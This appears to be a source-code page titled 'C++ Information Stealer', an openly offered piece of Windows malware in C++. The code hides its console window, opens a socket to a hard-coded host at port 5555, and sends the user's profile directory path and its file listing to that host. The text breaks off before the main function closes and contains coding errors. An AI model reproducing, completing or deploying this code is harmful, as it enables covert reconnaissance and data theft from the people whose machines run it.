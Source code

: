 # C++ Information Stealer

### Code

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string>


char* userDirectory() {
    char* pPath;
    pPath = getenv("USERPROFILE");

    if (pPath!=NULL) {
        return pPath;
    }
    else {
        perror("");
    }
}


int main() {
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);

    addr.sin_addr.s_addr = inet_addr("10.10.15.2");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);

    connect(server, (SOCKADDR *)&addr, sizeof(addr));

    char* pPath = userDirectory();
    send(server, pPath, sizeof(pPath), 0);
    send(server, "\n", 1, 0);

    DIR *dir;
    struct dirent *ent;

    if ((dir = opendir(pPath)) != NULL) {
        while ((ent = readdir(dir)) != NULL) {
            send(server, ent->d_name, sizeof(ent->d_name), 0);
            send(server, "\n", 1, 0);
            memset(ent->d_name, 0, sizeof(ent->d_name));
        }
        closedir(dir);
    }
    else {
        perror("");
    }

```